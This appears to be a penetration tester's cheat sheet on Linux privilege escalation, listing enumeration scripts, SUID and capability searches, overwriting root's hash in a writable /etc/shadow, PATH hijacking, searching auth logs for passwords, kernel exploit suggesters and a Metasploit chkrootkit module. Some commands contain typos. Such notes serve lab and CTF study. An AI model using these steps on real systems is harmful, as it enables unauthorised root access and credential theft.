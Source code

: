 # Linux - Privilege Escalation

## Linux Local Enum Scripts

### LinPeass

Copy the script on the HTTP server directory.

```
cp /usr/share/peass/linpeas/linpeas.sh .
```

Transfer the script on target and run it.

### LinEnum.sh

{% embed url="https://github.com/rebootuser/LinEnum" %}

1. Copy bash script in a file (LinEnum.sh)
2. upload file to target machine /temp dir through meterpreter (upload LinuEnum.sh)
3. run this commands in linux target machine (chmod +x LinEnum.sh && ./LinEnum.sh)

### pspy

{% embed url="https://github.com/DominicBreuker/pspy" %}

**pspy** is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs.

```bash
# download on kali machine
wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy32

# trasfer with python on a target

# run on target
chmod +x pspy32 && pspy32
```





## Juicy Dir

Check this directory to find something juicy

```
/opt/
```





## Groups

Check the groups user and, if there is no standard one, google it to find some information and futher actions to do with it.&#x20;

```bash
id
```



## Sudo

```bash
sudo -l
```

## SUIDs

<pre class="language-bash"><code class="lang-bash"># Check application with permission
find / type f -perm -04000 -ls 2>/dev/null
<strong>find / -perm -u=s -type f 2>/dev/null
</strong></code></pre>

### GTFObins

{% embed url="https://gtfobins.github.io/" %}

## Capabilities

```bash
# check application with capabilities
getcap -r / 2>/dev/null

# If there are cap_setuid capabilities, use application for change user uid.
```

## Permitions Check

```bash
# check file with write permision open
find / -not -type l -perm -o+w

# /etc/shadow writable, change a root password with SHA-512 hash
openssl passwd -6 -salt xyz YOURPASS
# elevate your privs without sudo 
su -
```

## Cron Jobs

```bash
cat /etc/crontab

# create or mod script in crontab
```



## Log Analysis

```bash
# Look for password 
cat /var/log/auth* | grep -i --text "pass"
```



## PATH Variable Manipulation

```bash
vim gre    # Check the $PATH
echo $PATH

# check writable folders
find / -writable 2>/deb/null

# add writable folder in PATH
export PATH=/[$WR_FOLDER]:$PATH

# Create command script in writable folder for privEsc
# Run Script
```



## **NFS (Network File Share)**

```bash
cat /etc/exports
# Check if there is no_root_squash in NFS conf
```



## Kernel Exploit

```bash
# Identify the Kernel version 
uname -a

# Search an exploit code for the kernel version with Linux Exploit Suggester
# download the script .sh
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

# trasfer the script in the target
# run it
chmod +x lse.sh
./lse.sh

# READ EXPLOIT!!!
gcc explit.c -o exploit
```



## Metasploit PrivEsc

```bash
# view running program on target
ps aux
```

### CHKROOTKIT

```bash
service postgresql start && msfconsole

use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION N
set LHOST IP
exploit
```





